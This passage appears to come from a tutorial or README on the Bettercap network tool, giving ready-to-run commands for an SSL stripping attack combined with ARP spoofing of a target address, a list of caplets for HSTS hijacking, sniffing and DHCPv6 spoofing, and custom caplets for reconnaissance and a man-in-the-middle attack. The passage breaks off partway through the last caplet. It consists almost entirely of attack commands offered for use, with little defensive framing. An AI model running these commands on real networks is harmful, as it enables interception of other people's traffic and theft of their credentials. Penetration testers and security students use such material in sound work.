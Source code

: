 ### SSL Stripping Attack:
```bash
# Enable SSL stripping for both proxies
set http.proxy.sslstrip true
set https.proxy.sslstrip true

# Start both proxies
http.proxy on
https.proxy on

# Combined with ARP spoofing for full attack
set arp.spoof.targets 192.168.1.100
arp.spoof on
```

---

## 🎛️ Caplets - Bettercap's Superpower

### Using Built-in Caplets:
```bash
# List all available caplets
caplets.show

# Update caplets
caplet update.cap

# Popular built-in caplets:
caplet hstshijack/hstshijack     # HSTS hijacking
caplet sniff-unified.cap         # Unified sniffing
caplet arp-spoof.cap             # ARP spoofing automation
caplet dhcp6-spoof.cap           # DHCPv6 spoofing
```

### Create Custom Caplets:

#### Example 1: Basic Recon Caplet
Create file: `recon.cap`
```bash
# recon.cap - Basic network reconnaissance
echo "[*] Starting network reconnaissance..."
net.probe on
net.recon on
sleep 30
echo "[*] Network discovery completed"
net.show
events.stream
```

#### Example 2: Advanced MITM Caplet
Create file: `advanced-mitm.cap`
```bash
# advanced-mitm.cap - Complete MITM attack
echo "[*] Starting advanced MITM attack..."

# Network discovery
net.probe on
net.recon on
sleep 20

# ARP spoofing configuration
set arp.spoof.targets 192.168.1.100
set arp.spoof.fullduplex true
```